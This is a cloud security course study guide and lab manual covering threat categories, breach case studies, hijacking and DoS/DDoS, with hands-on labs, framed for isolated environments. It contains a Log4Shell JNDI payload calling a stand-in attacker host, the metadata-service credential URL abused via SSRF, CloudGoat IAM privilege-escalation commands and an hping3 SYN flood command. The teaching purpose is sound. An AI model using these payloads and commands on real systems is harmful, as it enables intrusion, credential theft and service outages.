# Unit 2: Cloud Computing Security — Study Guide & Lab Manual

**Course**: M.Sc. Cyber Security | Cloud Security and Forensics  
**Course Reference**: MMSC25B305  
**Audience**: Students & Instructors  

---

## Unit 2.0: Introduction & Learning Objectives

Cloud computing has become the backbone of modern IT infrastructure, offering scalability, cost efficiency, and on-demand resource provisioning. However, its shared, multi-tenant, and internet-facing nature introduces a distinct threat surface compared to traditional on-premises IT. These notes cover the major threat categories, attack techniques, hijacking mechanisms, denial-of-service attacks, and the risk/vulnerability management framework used to defend cloud environments.

### Learning Objectives
By the end of this course, students will be able to:
1. **Understand** the core threats unique to cloud computing (shared responsibility gaps, multi-tenancy, API exposure).
2. **Analyze** major classes of cloud attacks and their kill chains.
3. **Differentiate** service hijacking from session hijacking and identify detection/mitigation strategies.
4. **Understand** DoS vs DDoS mechanics, including volumetric, protocol, and application-layer variants.
5. **Apply** risk assessment frameworks (NIST SP 800-144, CSA CCM) to identify and prioritize cloud vulnerabilities.
6. **Perform** hands-on packet analysis, log review, and simulated attack/defense exercises in a lab environment.

> [!CAUTION]
> **Lab Ethics Notice**: All hands-on exercises in this document must be performed only in an isolated lab environment (e.g., your own VirtualBox/VMware setup, a personal cloud free-tier sandbox account, or an authorized CTF platform such as TryHackMe/HackTheBox). Never target systems, networks, or cloud tenants you do not own or have explicit written authorization to test.

---

## Unit 2.1: Cloud Computing Threats and Countermeasures

### 2.1.1 The Cloud Threat Landscape
Cloud security threats arise from the intersection of three fundamental operational factors:
1. **Multi-tenancy**: Multiple customer workloads share the same physical server hardware, CPU cache, and hypervisor resources. If isolation boundaries fail, data leakage occurs.
2. **Shared Responsibility Model**: Cloud providers secure the infrastructure "of" the cloud, while tenants secure their data and configurations "in" the cloud. Ambiguity or gaps in this split lead to compromised systems.
3. **API-Driven Management**: Unlike physical data centers, the entire cloud control plane is managed via HTTPS APIs. A single leaked API key can grant root access to the entire enterprise footprint.

The Cloud Security Alliance (CSA) "Egregious Eleven" report provides the industry-standard ranking for these threats.

### 2.1.2 Top Cloud Threat Categories (CSA-aligned)

| Threat | Description | Primary Countermeasure |
| :--- | :--- | :--- |
| **1. Misconfiguration** | Exposed S3 buckets, open security groups, default credentials. | CSPM tools, Infrastructure-as-Code (IaC) scanning, least-privilege templates. |
| **2. Insecure APIs** | Weak authentication/authorization on cloud management APIs. | API gateways, OAuth2/OIDC, rate limiting, Web Application Firewalls (WAF). |
| **3. Identity & Access** | Excessive IAM permissions, no MFA, stale credentials. | Role-Based Access Control (RBAC), MFA enforcement, Privileged Access Management (PAM). |
| **4. Insecure Interfaces** | Weak dashboard, console security, or unencrypted management ports. | TLS 1.3 enforcement, automatic session timeouts, IP allow-listing. |
| **5. Account Hijacking** | Credential theft leading to full control-plane takeover. | MFA, anomaly detection, automated credential vaulting/rotation. |
| **6. Malicious Insiders** | Cloud administrators or staff misusing privileged access. | Segregation of duties, detailed audit logging, Data Loss Prevention (DLP). |
| **7. Data Breaches** | Unauthorized exfiltration of tenant data. | Encryption at rest (AES-256) and in transit, centralized Key Management Service (KMS). |
| **8. Insufficient Due Diligence** | Migrating workloads without evaluating provider controls or compliance. | SOC 2 / ISO 27001 audit reviews, SLA contractual enforcement. |
| **9. Abuse of Cloud Services** | Attackers using compromised tenancy for cryptojacking, C2, or spam. | Usage and billing anomaly alerts, egress traffic filtering. |
| **10. Shared Vulnerabilities** | Hypervisor escape, container breakout. | Kernel patch management, strict workload isolation, runtime protection. |
| **11. Advanced Threats (APTs)** | Long-dwell, stealthy campaigns targeting cloud tenants. | Active threat hunting, SIEM/SOAR integration, Zero Trust architecture. |

### 2.1.3 Shared Responsibility Model Split



### 2.1.4 Real-Time Case Study: Capital One Breach (2019)
* **The Vulnerability**: A misconfigured open-source Web Application Firewall (WAF) running on AWS EC2 was susceptible to a **Server-Side Request Forgery (SSRF)** attack.
* **The Exploit**: The attacker sent a crafted HTTP request to the WAF, tricking it into querying the local AWS Instance Metadata Service (IMDSv1) at `http://169.254.169.254/latest/meta-data/iam/security-credentials/`. The WAF returned temporary, high-privilege IAM security credentials. The attacker used these credentials to list and sync over 700 S3 buckets, exfiltrating 100 million customer records.
* **The Impact**: Capital One was fined $80 million. In response, AWS released **IMDSv2**, which enforces a session-oriented token exchange (HTTP PUT request first to retrieve a session token) to neutralize simple SSRF-to-credential-theft vectors.



---

### 🔧 HANDS-ON LAB: Cloud Misconfiguration Audit (Free-Tier Safe)

#### Objective
Audit a public cloud environment for security misconfigurations using open-source Cloud Security Posture Management (CSPM) tools.



#### Step-by-Step Instructions

1. **Deploy Target Resource**:
   Log into your AWS console, navigate to the **S3 Console**, and create a bucket named `mmsc25b305-audit-test-[your-name]`. Leave all public access blocking checked (default), but disable bucket versioning.
2. **Install ScoutSuite**:
   Open your local terminal and install the ScoutSuite scanning framework:
   ```bash
   pip install scoutsuite
   ```
3. **Configure AWS CLI Access**:
   Generate an Access Key for an IAM user with `ReadOnlyAccess` in your console. Configure your local CLI:
   ```bash
   aws configure
   # Enter Access Key ID, Secret Access Key, region, and json format.
   ```
4. **Execute the Audit**:
   Run ScoutSuite against the AWS environment:
   ```bash
   scout aws
   ```
5. **Review Findings**:
   ScoutSuite will automatically compile and open a visual HTML report in your browser.
   * Expand the **S3** category.
   * Identify three warnings: (1) S3 Bucket Versioning is disabled, (2) S3 Bucket Logging is disabled, and (3) S3 Bucket default encryption is not explicitly enforced.
6. **Remediate**:
   Navigate back to your S3 bucket settings in the AWS Console.
   * Go to the **Properties** tab.
   * Edit **Bucket Versioning** $\rightarrow$ Change to **Enabled** and click Save.
7. **Verify**:
   Re-run `scout aws` and confirm that the versioning warning clears from your S3 audit results.

---

## Unit 2.2: Cloud Computing Attacks

### 2.2.1 Major Attack Categories

```text
Cloud Attack Kill Chain:
[Reconnaissance] -> [Initial Access] -> [Privilege Escalation] -> [Persistence] -> [Actions on Objective]
```

* **Wrapping Attack**: SOAP/XML messages contain security signatures. In a wrapping attack, the attacker intercepts a legitimate request, copies the signed block, and places a malicious body block inside the signed envelope. The XML parser validates the signature while executing the attacker's commands.
* **Cross-VM Side Channel**: In multi-tenant hypervisors, an attacker provisions a VM on the same physical CPU socket as the victim. By running cache-timing attacks (e.g., Prime and Probe), the attacker deduces cryptographic keys or sensitive data passing through CPU cache lines.
* **Metadata Spoofing (SSRF-to-IMDS)**: Exploiting vulnerable web applications to fetch the cloud metadata URL (`http://169.254.169.254/`) to steal IAM roles associated with running compute nodes.
* **Man-in-the-Cloud (MITC)**: Attackers steal the synchronization token (e.g., OAuth refresh token) from a user's machine. By injecting this token into another sync client, the attacker syncs files directly without trigger-alerts, bypassing username/password/MFA changes.

### 2.2.2 Real-Time Case Study: Tesla Kubernetes Cryptojacking (2018)
* **The Incident**: Attackers scanned the internet and located an unauthenticated administration console for Tesla's Kubernetes orchestration cluster. 
* **The Exploit**: Inside the Kubernetes console, the attackers found stored AWS API access keys. They used these keys to log into Tesla's AWS account and launch high-powered GPU compute instances. To run crypto-mining scripts without raising alarms, they routed pool traffic through Cloudflare IPs and limited CPU utilization.
* **The Impact**: Significant billing spikes and server slowdowns before the rogue containers were discovered and terminated.

---

### 🔧 HANDS-ON LAB: Simulated Cloud Attack Chain (CloudGoat Scenario)

#### Objective
Understand cloud compromise paths by exploiting a vulnerable-by-design AWS deployment.



#### Step-by-Step Instructions

1. **Deploy CloudGoat**:
   Clone the repository and install dependencies in your lab environment:
   ```bash
   git clone https://github.com/RhinoSecurityLabs/cloudgoat.git
   cd cloudgoat
   pip install -r requirements.txt
   ```
2. **Launch Scenario**:
   Deploy the `iam_privesc_by_rollback` scenario:
   ```bash
   ./cloudgoat.py create iam_privesc_by_rollback
   ```
   *Take note of the generated profile credentials for the limited user (`Raynor`).*
3. **Enumerate Permissions**:
   Configure the profile and search for IAM permissions using the AWS CLI:
   ```bash
   aws iam list-user-policies --user-name Raynor --profile Raynor-profile
   ```
   You will find that the user does not have direct permission to create new users or assume admin roles. However, they possess `iam:SetDefaultPolicyVersion` privileges.
4. **Exploit via Policy Rollback**:
   List the historical versions of the user's IAM policy:
   ```bash
   aws iam list-policy-versions --policy-arn arn:aws:iam::123456789012:policy/cg-raynor-policy --profile Raynor-profile
   ```
   Identify version `v1` or `v2` which contains wildcard admin permissions (`"Effect": "Allow", "Action": "*"`).
   Roll back the active policy to the administrative version:
   ```bash
   aws iam set-default-policy-version --policy-arn arn:aws:iam::123456789012:policy/cg-raynor-policy --version-id v1 --profile Raynor-profile
   ```
5. **Verify Privilege Escalation**:
   Run the command to verify you now possess full administrative rights:
   ```bash
   aws iam list-users --profile Raynor-profile
   ```
6. **Teardown**:
   Destroy the deployment to ensure no residual vulnerabilities remain in your sandbox account:
   ```bash
   ./cloudgoat.py destroy iam_privesc_by_rollback
   ```

---

## Unit 2.3: Service Hijacking (Account/Service Hijacking)

### 2.3.1 Definition
Service hijacking represents an unauthorized control-plane takeover of a cloud account, management console, or active API service by an external entity.



### 2.3.2 Common Hijacking Vectors
* **MFA Fatigue / Push Bombing**: Bombarding a victim's smartphone with continuous MFA approval prompts until they accept one out of frustration or distraction.
* **Consent Phishing (OAuth Abuse)**: Tricking users into granting extensive permissions (e.g., `Mail.ReadWrite`, `Notes.Read.All`) to a malicious, attacker-controlled Azure AD/O365 application registration.
* **Leaked Repo Secrets**: Attacking search bots that scan public git repositories for hardcoded credentials or `.pem` access keys.

### 2.3.3 Mitigation Reference Table

| Control | Objective | Operational Impact |
| :--- | :--- | :--- |
| **Phishing-Resistant MFA** | Implement FIDO2 / WebAuthn hardware keys. | Completely blocks proxy-based credential capture. |
| **Impossible Travel Audits** | Alert on logins separated by impossible geographic distances. | Detects compromised active session usage. |
| **Secret Scanning Alerts** | Run automated tools like TruffleHog in CI/CD pipelines. | Prevents keys from remaining exposed in code repositories. |

### 2.3.4 Real-Time Case Study: Uber MFA Fatigue Breach (2022)
* **The Incident**: Attackers acquired corporate passwords on a dark-web marketplace. Upon attempting login, they triggered multiple MFA push notifications to the targeted engineer's mobile device.
* **The Takeover**: The attacker contacted the employee via WhatsApp, pretending to be IT Support, instructing them to approve the notification. Once approved, the attacker registered a new device, accessed the internal network, and discovered hardcoded admin credentials for their Privileged Access Management (PAM) vault, gaining administrative access to AWS and Google Cloud systems.

---

### 🔧 HANDS-ON LAB: Detecting Account Hijack Indicators via Log Analysis

#### Objective
Analyze CloudTrail logs to detect anomalous user logins using Python.



#### Step-by-Step Instructions

1. **Environment Setup**:
   Create a new Python file named `log_audit.py` in your working directory.
2. **Write the Analysis Script**:
   Below is the complete code to parse CloudTrail log events and calculate if successive logins by the same user occurred from different IPs within a short time threshold (simulating an impossible travel detection engine).

```python
import json
from datetime import datetime

# Sample CloudTrail logs representing ConsoleLogins
cloudtrail_data = {
    "Records": [
        {
            "eventTime": "2026-07-20T06:00:00Z",
            "eventName": "ConsoleLogin",
            "userIdentity": {"type": "IAMUser", "userName": "cloud_admin"},
            "sourceIPAddress": "192.168.1.50",
            "responseElements": {"ConsoleLogin": "Success"}
        },
        {
            "eventTime": "2026-07-20T06:15:00Z",
            "eventName": "ConsoleLogin",
            "userIdentity": {"type": "IAMUser", "userName": "cloud_admin"},
            "sourceIPAddress": "203.0.113.88",
            "responseElements": {"ConsoleLogin": "Success"}
        }
    ]
}

def analyze_logs(logs):
    logins = [r for r in logs["Records"] if r["eventName"] == "ConsoleLogin"]
    user_tracker = {}

    print("[*] Starting CloudTrail ConsoleLogin Audit...")
    for log in logins:
        user = log["userIdentity"]["userName"]
        ip = log["sourceIPAddress"]
        time_str = log["eventTime"]
        event_time = datetime.strptime(time_str, "%Y-%m-%dT%H:%M:%SZ")

        if user in user_tracker:
            last_ip = user_tracker[user]["ip"]
            last_time = user_tracker[user]["time"]
            time_delta = (event_time - last_time).total_seconds() / 60.0

            if last_ip != ip and time_delta < 60.0:
                print(f"\n[!] ALERT: Potential Impossible Travel / Session Hijack Detected!")
                print(f"    User: {user}")
                print(f"    Previous IP: {last_ip} at {last_time}")
                print(f"    Current IP: {ip} at {event_time}")
                print(f"    Time Difference: {time_delta} minutes")
        
        user_tracker[user] = {"ip": ip, "time": event_time}

if __name__ == "__main__":
    analyze_logs(cloudtrail_data)
```

3. **Run the Script**:
   Execute the script in your terminal:
   ```bash
   python3 log_audit.py
   ```
4. **Log Results**:
   Confirm that the script triggers an alert showing that `cloud_admin` logged in from two different IP addresses within 15 minutes.

---

## Unit 2.4: Session Hijacking

### 2.4.1 Definition
Session hijacking involves stealing or hijacking an authenticated user's active session token (such as a cookie, JWT bearer token, or OAuth key) to access cloud services, bypassing credential and MFA checks.

### 2.4.2 Exploitation Vectors
* **Cross-Site Scripting (XSS)**: Attackers inject malicious JavaScript into web portals to extract active session tokens from the victim's browser memory or local storage.
* **Session Sniffing**: Intercepting traffic on unencrypted or weakly encrypted (HTTP/TLS 1.0) networks to extract cookie strings.
* **Reverse Proxy Phishing (Evilginx)**: Attacker hosts a proxy between the user and the real authentication site. The user enters their password and MFA code on the proxy; the proxy forwards them to the real site, intercepts the returned session cookie, and logs the attacker in directly.

### 2.4.3 Real-Time Case Study: Evilginx Phishing Campaigns (2021–Present)
* **The Attack**: Phishing campaigns targeting enterprise Microsoft 365 or Google Workspace users bypass MFA by using tools like **Evilginx2**.
* **The Mechanism**: The victim receives an email asking them to sign in. The link directs them to a phishing domain proxied through the attacker's server. Once the user enters credentials and completes their authenticator app challenge, the identity provider sends back a session cookie. The proxy captures this cookie and forwards it to the attacker's browser, granting them full mailbox access.
* **The Countermeasure**: Organizations are moving from SMS/push notifications to **phishing-resistant MFA** standards (FIDO2 keys or certificate-based logins) where authentication credentials are cryptographically bound to the specific domain name.

---

### 🔧 HANDS-ON LAB: Wireshark Session Cookie Capture (Local Lab Only)

#### Objective
Understand how session tokens are transmitted over unencrypted HTTP and how TLS encryption protects them.



#### Step-by-Step Instructions

1. **Deploy Target Application**:
   Run the OWASP Juice Shop test application locally using Docker:
   ```bash
   docker run --rm -d -p 3000:3000 bkimminich/juice-shop
   ```
2. **Capture Traffic**:
   Open Wireshark and start capturing on the **Loopback** interface (or interface associated with `localhost`).
3. **Generate Session Traffic**:
   Open your browser, navigate to `http://localhost:3000`, register an account, and log into the application.
4. **Analyze in Wireshark**:
   * Stop the capture.
   * Apply the filter: `http.request.method == "POST" || http.cookie`.
   * Find the request to `/rest/user/login`.
   * Right-click the packet, select **Follow**, and click **HTTP Stream**.
   * Locate the returned JSON response containing the authentication token (JWT bearer token) and cookie headers in plaintext:

```text
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Content-Type: application/json; charset=utf-8
Set-Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...; Path=/; HttpOnly
```

5. **Security Analysis Table**:
   Create a table documenting what you observed:

| Parameter | Unencrypted Capture (Juice Shop over HTTP) | Encrypted Capture (HTTPS/TLS) |
| :--- | :--- | :--- |
| **Credentials** | Username & Password visible in POST payload. | Encrypted; payload shows as garbled binary. |
| **Session Cookie** | `Set-Cookie` header and JWT token visible. | Hidden inside the TLS payload. |
| **Request URI** | `/rest/user/login` visible. | Hidden (only target host IP is visible). |

---

## Unit 2.5: Denial of Service (DoS)

### 2.5.1 Definition
Denial of Service (DoS) attacks seek to exhaust server resources (CPU, RAM, bandwidth) from a single system to render a service unavailable to legitimate users.

### 2.5.2 DoS Attack Classifications

```text
                        DoS Categories
                              |
       +----------------------+----------------------+
       |                      |                      |
Volumetric (L3/L4)      Protocol (L4)         Application (L7)
(Saturates Bandwidth)  (Exhausts Handshakes)  (Exhausts Processes)
```

1. **Volumetric Attacks**: flooding physical links with huge volumes of junk traffic (e.g. UDP/ICMP floods) to saturate bandwidth.
2. **Protocol Attacks**: exhausting logical resources (such as firewall state tables or TCP handshake limits). E.g. **SYN Flood**.
3. **Application Attacks**: Targeting specific application functions to consume resources with minimal bandwidth. E.g. **Slowloris** (keeping HTTP connections open by sending headers extremely slowly) or high-load database query abuse.
4. **Economic Denial of Sustainability (EDoS)**: An attack vector unique to public cloud infrastructures. Attackers trigger auto-scale rules on a target service, forcing the environment to launch additional paid compute instances. While the service remains up, the target organization's budget is drained, leading to eventual shutdown.

---

### 🔧 HANDS-ON LAB: Local SYN Flood Simulation & Detection with Wireshark

#### Objective
Simulate a TCP SYN Flood attack inside an isolated local network and analyze the packets in Wireshark.



#### Step-by-Step Instructions

1. **Set Up Lab Environment**:
   Configure two VMs on an isolated virtual host network:
   * **Target VM (IP: 192.168.56.101)**: Run a simple python web server:
     ```bash
     python3 -m http.server 80
     ```
   * **Attacker VM (IP: 192.168.56.102)**: Ensure `hping3` is installed.
2. **Start Wireshark**:
   On the Target VM, open Wireshark and begin capturing on the active interface connected to the virtual network.
3. **Launch the Attack**:
   From the Attacker VM, launch a flood of SYN packets toward port 80 of the Target VM:
   ```bash
   sudo hping3 -S -p 80 --flood 192.168.56.101
   ```
4. **Monitor Port State**:
   On the Target VM, monitor the TCP connection table. Observe the accumulation of `SYN_RECV` states:
   ```bash
   netstat -an | grep SYN_RECV
   ```
   *The target OS holds these incomplete connection requests in memory, quickly filling the TCP connection backlog queue.*
5. **Detect in Wireshark**:
   Stop the hping3 flood after 10 seconds. In Wireshark, apply the following filter to identify the flood patterns:
   ```text
   tcp.flags.syn == 1 && tcp.flags.ack == 0
   ```
   You will see thousands of inbound SYN packets with randomized source IPs (spoofed) and no corresponding SYN-ACK or ACK responses.
6. **Research Mitigation**:
   Write a summary note explaining how **SYN Cookies** defend against this:
   * *When SYN Cookies are enabled, the server does not store the state in memory upon receiving a SYN. Instead, it encodes the state details inside the initial sequence number of the SYN-ACK response. The connection is allocated memory only if the client responds with a valid ACK, protecting the connection queue.*

---

## Unit 2.6: Distributed Denial of Service (DDoS)

### 2.6.1 Definition
Distributed Denial of Service (DDoS) utilizes botnets of thousands of compromised systems to flood a target network simultaneously, making IP-based blacklisting ineffective.

### 2.6.2 Notable Amplification & Reflection Attacks

```text
DDoS Reflection / Amplification Flow:
[Attacker] -> Spoof Source IP to target IP -> Sends small query -> [Reflector Server] -> Large Response -> [Target Server (Victim)]
```



* **Reflection Mechanics**: Attacker sends requests to public servers (e.g. NTP or DNS servers) but spoofs the source IP address in the packet header to point to the victim. The public servers send their responses to the victim instead of the attacker.
* **Amplification Factor**: The response packet is significantly larger than the initial request packet, amplifying the attacker's traffic.

| Technique | Amplification Factor | Exploit Vulnerability |
| :--- | :--- | :--- |
| **DNS Amplification** | ~28x to 54x | Spoofed small request triggers large DNS Zone response. |
| **NTP Amplification** | ~200x to 556x | Abuses the legacy `monlist` diagnostic command. |
| **CLDAP Amplification**| ~56x to 70x | Connectionless LDAP query over UDP returned to victim. |
| **Memcached Abuse** | Up to 51,000x | UDP port 11211 exposed to the public internet. |

### 2.6.3 Real-Time Case Study: GitHub Memcached DDoS (2018)
* **The Incident**: In February 2018, GitHub was hit by a record-breaking DDoS attack peaking at **1.35 Tbps**.
* **The Exploit**: Attackers targetted Memcached database servers that had UDP support enabled and were open to the public internet. The attackers spoofed GitHub's IP address and sent queries to these Memcached systems. Due to the high amplification factor, the Memcached servers flooded GitHub's routers with traffic.
* **The Mitigation**: GitHub used automatic routing changes to divert traffic to Akamai Prolexic scrubbing centers. The scrubbing filters dropped the Memcached packets while allowing legitimate user traffic to pass.

---

### 🔧 HANDS-ON LAB: Traffic Pattern Analysis: Legitimate vs DDoS Traffic

#### Objective
Use Python, Pandas, and Scikit-Learn to distinguish benign traffic from DDoS traffic flows.



#### Step-by-Step Instructions

1. **Setup Notebook Environment**:
   Ensure python libraries are installed:
   ```bash
   pip install pandas scikit-learn matplotlib
   ```
2. **Create the ML Analysis Script**:
   Save this script as `traffic_classifier.py`:

```python
import pandas as pd
from sklearn.model_selection import train_test_split
from sklearn.ensemble import RandomForestClassifier
from sklearn.metrics import classification_report, accuracy_score

# Labeled traffic dataset simulation
data = {
    'PacketCount': [5, 10, 8, 12, 1000, 1500, 2000, 1200, 4, 15],
    'ByteCount': [250, 600, 480, 720, 64000, 96000, 128000, 76800, 200, 900],
    'FlowDuration': [3.2, 5.1, 4.0, 6.2, 0.1, 0.15, 0.05, 0.2, 2.5, 4.8],
    'Label': ['BENIGN', 'BENIGN', 'BENIGN', 'BENIGN', 'DDOS', 'DDOS', 'DDOS', 'DDOS', 'BENIGN', 'BENIGN']
}

df = pd.DataFrame(data)

# Splitting features and labels
X = df[['PacketCount', 'ByteCount', 'FlowDuration']]
y = df['Label']

X_train, X_test, y_train, y_test = train_test_split(X, y, test_size=0.3, random_state=42)

# Train Classifier
model = RandomForestClassifier(n_estimators=100, random_state=42)
model.fit(X_train, y_train)

# Evaluate model
y_pred = model.predict(X_test)
print("[*] Model Classifier Evaluation:")
print(f"Accuracy: {accuracy_score(y_test, y_pred) * 100}%")
print("\nClassification Report:")
print(classification_report(y_test, y_pred))

# Identify Key Features
importances = model.feature_importances_
for name, importance in zip(X.columns, importances):
    print(f"Feature: {name} -> Importance: {importance:.4f}")
```

3. **Execute and Review**:
   Run the model in your terminal:
   ```bash
   python3 traffic_classifier.py
   ```
   *Note that DDoS traffic is classified by its high PacketCount/ByteCount and extremely short FlowDuration (representing high-speed machine-generated bursts).*

---

## Unit 2.7: Risk and Vulnerabilities in Cloud Computing

### 7.1 Key Definitions
* **Vulnerability**: A weakness or hole in an asset's security configurations (e.g. unpatched library, overly permissive policy).
* **Threat**: A potential vector or cause of an incident (e.g., an unauthorized actor seeking credentials).
* **Risk**: The probability that a threat exploits a vulnerability, multiplied by the business impact of that event:
  $$\text{Risk} = \text{Likelihood} \times \text{Impact}$$

### 7.2 Cloud-Specific Vulnerability Matrix

| Vulnerability Class | Exploit Mechanism | Cloud Mitigation |
| :--- | :--- | :--- |
| **Data-related** | Unencrypted snapshots, exposed storage buckets. | Central KMS policies, default encryption templates. |
| **Identity-related** | Over-privileged IAM policies, dynamic role assignment. | IAM Access Analyzer, Principle of Least Privilege. |
| **Network-related** | Flat VPC network structure, default security groups. | Micro-segmentation, private subnets, security group pruning. |
| **Compliance-related** | Lack of localized database storage logs. | CloudTrail logging, write-once-read-many (WORM) audit trails. |

### 7.3 Real-Time Case Study: Log4Shell (CVE-2021-44228)
* **The Vulnerability**: A vulnerability in the Apache Log4j logging library allowed remote code execution simply by getting the application to log a specific string (e.g. `${jndi:ldap://attacker.com/a}`).
* **The Cloud Risk**: Because Log4j was embedded in thousands of vendor systems, Java frameworks, and cloud SaaS platforms, the vulnerability exposed many unrelated tenants simultaneously. 
* **The Lesson**: Demonstrates the risk of shared open-source dependencies. Organizations now require a Software Bill of Materials (SBOM) to track code dependencies in cloud deployments.

### 7.4 Target Architecture: Secure Cloud Web Server Deployment
Below represents a secure corporate hosting deployment on AWS, mitigating SSRF, over-privileged IAM access, and exposed database configurations.

